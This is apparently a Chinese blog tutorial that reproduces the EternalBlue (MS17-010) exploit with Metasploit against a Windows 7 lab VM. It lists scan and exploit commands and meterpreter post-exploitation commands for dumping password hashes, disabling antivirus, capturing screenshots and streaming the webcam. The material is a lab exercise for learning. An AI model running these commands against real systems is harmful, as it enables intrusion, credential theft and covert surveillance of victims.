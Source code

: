 ```yaml
---
title: 永恒之蓝复现以及简单的后渗透信息收集
date: 2023-04-16 15:34:29
categories: 技术
tags:
    - 网络安全
# description: 网络安全，有点意思
---
```



### 环境准备

首先需要准备两台虚拟机，一台运行kali linux，一台运行windows7，windows其他版本的没有测试，不过非常有可能其他版本已经修复这个bug了，用来学习测试的话，用windows7比较妥善。

<!-- more -->

### 网络准备

必须保证windows7和kali linux 在同一个局域网底下，即保证这两台机器IP都是同一个网段的地址。

### 攻击开始

1. 使用kali的nmap工具进行扫描，查看同一个网络下，有哪些主机。运行下面这个命令。

```bash
    # nmap -T4 -A -v -Pn 192.168.20.1/24
```
![扫描域内主机](./crypto/1.png)

可以看到有一个***192.168.20.129***的主机可用，开启了445端口。我们就对这个主机进行攻击。

2. windows验证一下，发现windows获取的IP确实是***192.168.20.129***

![windows验证](./crypto//2.png)

3. 在kali上使用工具开始攻击，运行以下命令，稍作等待。

```bash
    # msfconsole -q  
```

> -q 选项不再继续打印工具启动时的图形文字

> 运行之后是这样的效果

![msfconsole](./crypto/3.png)

4. 执行以下命令，搜索可以利用的漏洞工具

```bash
    msf6 > search ms17-010
```
![ms17-010](./crypto/4.png)

5. 选择序号为0的漏洞进行攻击，分别执行以下代码

```bash
    msf6 > use 0
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.20.50
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.20.129
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

> set lhost 是设置攻击主机的IP，set rhost 是设置靶机主机的IP，run开始进行攻击。

效果图如下：

![开始攻击](./crypto/5.png)

6. 稍等片刻，攻击成功后，命令行的提示文字会变为**meterpreter>**，入侵完成，我们可以用命令进行对windows主机的任何操作。

|命令|功能|
|:---:|:---:|
|shell|启动靶机主机的cmd|
|screenshot|对靶机进行屏幕截图|
|webcam_list|列出摄像头|
|webcam_snap|利用靶机摄像头拍照|
|webcam_stream|利用靶机摄像头拍视频|
|getuid|获取登录用户|
|getsystem|获取磁盘信息|
|hashdump|获取密码的哈希值|
|kill|杀掉进程|
|download|下载文件|
|upload|上传文件|
|run killav|关闭杀软|
|run post/windows/manage/killava|关闭杀软|
|run post/windows/gather/checkkvm|检查是否是虚拟机|
|run post/windows/gather/enum_services|列出所有的服务|
|run post/windows/gather/enum_applications|列出运行的程序|
|run post/windows/gather/enum_patches|列出打的补丁|
|run post/windows/gather/dumplinks|列出最近的操作|


7. 以下是利用上述命令实现的一些效果图

* 使用shell

```bash
    meterpreter > shell
```
> 运行之后成功进入shell，但是会出现部分乱码，接着输入命令`chcp 65001`，回车后乱码变正常。

![帅哥](./crypto/6.png)

* 屏幕截图，运行以下命令

```bash
    meterpreter > screenshot
```

运行成功后桌面上会多了一张windows的屏幕截图

![帅哥](./crypto/7.png)

* 上传文件

上传这一张照片

![帅哥](./crypto/8.png)

执行以下命令

```bash
    meterpreter > upload /home/kali/Desktop/shuaige.png c:\\shuaige.png
```

![帅哥](./crypto/9.png)

显示上传成功，然后去windows主机验证。

![帅哥](./crypto/10.png)

上传成功，windows正常查看。

* 调用网络摄像头，运行以下命令

```bash
    meterpreter > webcam_stream
```

![帅哥](./crypto/11.png)

> kali 成功调用到了windows7的摄像头

### 写在后面的话

网络并不是法外之地，且行且珍惜。